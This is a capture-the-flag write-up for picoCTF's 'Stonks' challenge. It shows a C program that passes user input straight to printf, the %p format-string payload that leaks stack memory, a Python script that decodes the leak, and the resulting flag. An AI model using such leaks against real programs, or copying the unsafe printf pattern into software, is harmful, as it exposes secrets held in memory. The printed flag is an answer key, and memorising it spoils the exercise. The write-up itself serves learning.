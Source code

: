 # Stonks

## Description
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/62f47b5b65ec7eadb96c4e34f016f68d/vuln.c) `nc mercury.picoctf.net 53437`
> 20 points

## Hints
Okay, maybe I'd believe you if you find my API key.

![Screen Shot 2022-06-12 at 20 25 23](https://user-images.githubusercontent.com/83420725/173235421-61966e97-fcf0-4406-8be0-d4fe249a9652.png)


```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```
> Notice the `printf(user_buf);`
    
    Welcome back to the trading app!
    What would you like to do?
    1) Buy some stonks!
    2) View my portfolio
    1
    Using patented AI algorithms to buy stonks
    Stonks chosen
    What is your API token?
    %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
    Buying stonks with token:
    0x8f083900x804b0000x80489c30xf7f57d800xffffffff0x10x8f061600xf7f651100xf7f57dc7(nil)0x8f071800x30x8f083700x8f083900x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffcc007d
    Portfolio as of Sun Jun 12 13:41:41 UTC 2022

    3 shares of EFSK
    1 shares of PRH
    7 shares of BB
    32 shares of PLA
    133 shares of CTB
    Goodbye!

The hex string that i receive

    0x8f083900x804b0000x80489c30xf7f57d800xffffffff0x10x8f061600xf7f651100xf7f57dc7(nil)0x8f071800x30x8f083700x8f083900x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffcc007d
Decode the string after `nil` and I have the string look like:

    7¹Socip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½}

Script get flag:
```python 
flag = "ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½�}"
temp = ''
result = ''
for i in range(0, len(flag), 4):
    temp = flag[i:i+4]
    result += temp[::-1]
print (result)
   
```

> picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}
